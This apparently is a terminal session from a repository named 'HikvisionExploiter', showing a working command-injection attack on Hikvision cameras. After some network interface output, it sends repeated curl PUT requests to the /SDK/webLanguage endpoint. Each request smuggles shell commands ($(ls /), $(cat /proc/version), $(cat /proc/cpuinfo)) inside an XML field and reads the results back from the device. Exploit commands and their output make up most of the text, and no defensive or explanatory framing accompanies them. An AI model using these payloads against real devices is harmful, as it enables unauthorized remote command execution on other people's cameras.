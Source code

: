 ```bash
          collisions:0 txqueuelen:1000 
          RX bytes:1329113 (1.2 MiB)  TX bytes:981880399 (936.3 MiB)
          Interrupt:12 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.255.255.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:270 errors:0 dropped:0 overruns:0 frame:0
          TX packets:270 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:16926 (16.5 KiB)  TX bytes:16926 (16.5 KiB)


 ╭─hex@space in repo: HikvisionExploiter on  main [!?] via  v3.13.5 took 1s
 ╰─λ curl -s -X PUT "http://IP:82/SDK/webLanguage" \
           -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
           --data '<?xml version="1.0" encoding="UTF-8"?><language>$(ls / > webLib/x)</language>' \
           > /dev/null && curl -s "http://IP:82/x"

bin
dav
dev
devinfo
etc
home
init
lib
linuxrc
mnt
opt
proc
root
sbin
srv
sys
tmp
var

 ╭─hex@space in repo: HikvisionExploiter on  main [!?] via  v3.13.5 took 6s
 ╰─λ curl -s -X PUT "http://IP:82/SDK/webLanguage" \
           -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
           --data '<?xml version="1.0" encoding="UTF-8"?><language>$(cat /proc/version > webLib/x)</language>' \
           > /dev/null && curl -s "http://IP:82/x"

Linux version 3.0.8 (huangliangyf2@Cpl-Frt-BSP) #1 Fri Mar 20 20:52:46 CST 2015

 ╭─hex@space in repo: HikvisionExploiter on  main [!?] via  v3.13.5 took 4s
 ╰─λ curl -s -X PUT "http://IP:82/SDK/webLanguage" \
           -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" \
           --data '<?xml version="1.0" encoding="UTF-8"?><language>$(cat /proc/cpuinfo > webLib/x)</language>' \
           > /dev/null && curl -s "http://IP:82/x"

Processor	: ARM926EJ-S rev 5 (v5l)
BogoMIPS	: 218.72
Features	: swp half thumb fastmult edsp java 
CPU implementer	: 0x41
CPU architecture: 5TEJ
CPU variant	: 0x0
CPU part	: 0x926
CPU revision	: 5
```
